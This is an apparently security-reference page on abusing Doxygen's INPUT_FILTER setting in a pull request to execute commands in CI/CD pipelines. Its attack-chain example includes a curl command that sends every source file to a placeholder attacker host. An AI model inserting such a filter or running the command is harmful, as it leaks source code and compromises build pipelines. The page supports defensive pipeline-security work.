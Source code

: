 ```yaml
---
layout: tool
title: doxygen
parent: Living Off The Pipeline
nav_order: 34
---
```


## Living Off The Pipeline - doxygen

`Doxygen` is a documentation generator for various programming languages. It can be abused as a "Living Off The Pipeline" (LOTP) tool because its configuration file, the `Doxyfile`, can be manipulated to execute arbitrary shell commands.

### First-Order LOTP Tool

`Doxygen` is a **First-Order LOTP Tool**. It provides direct Remote Code Execution (RCE) by design, as it is intended to execute external helper programs defined in its configuration file.

#### Malicious Primitive: Remote Code Execution (RCE)

The `Doxyfile` is the configuration file for a Doxygen project. It contains numerous tags that control the documentation process. Several of these tags are designed to specify external programs for Doxygen to execute. The most direct vector is the `INPUT_FILTER` tag.

The `INPUT_FILTER` tag specifies a command that Doxygen will run for every source file it processes. An attacker can set this tag to a malicious shell command in a pull request. When a CI/CD pipeline runs the `doxygen` command, it will execute the attacker's payload for each file, leading to RCE.

### Second-Order LOTP Attack Chain

1.  **Attacker's PR:** An attacker submits a pull request with a modified `Doxyfile` containing a malicious `INPUT_FILTER`.
    ```
    # Doxyfile

    # Malicious payload to exfiltrate the content of every source file
    INPUT_FILTER = "sh -c 'curl --data-binary @$1 http://attacker.com/files'"
    ```
    (Doxygen replaces `$1` with the path to the input file.)

2.  **Vulnerable Workflow:** The pipeline contains a standard command to generate the project's documentation.
    ```yaml
    - name: Generate API documentation
      run: doxygen
    ```

3.  **Execution:**
    *   The `doxygen` command is executed.
    *   It reads the `Doxyfile` and finds the malicious `INPUT_FILTER` command.
    *   For each source file in the project, Doxygen executes the attacker's `sh -c 'curl...'` command.
    *   The attacker's payload runs repeatedly, exfiltrating the entire source code of the project to the attacker's server.

This attack is dangerous because the CI/CD workflow file is benign. The malicious payload is hidden in a configuration file for a seemingly harmless documentation tool.

### References

*   [Doxygen Manual: `INPUT_FILTER`](https://www.doxygen.nl/manual/config.html#cfg_input_filter)
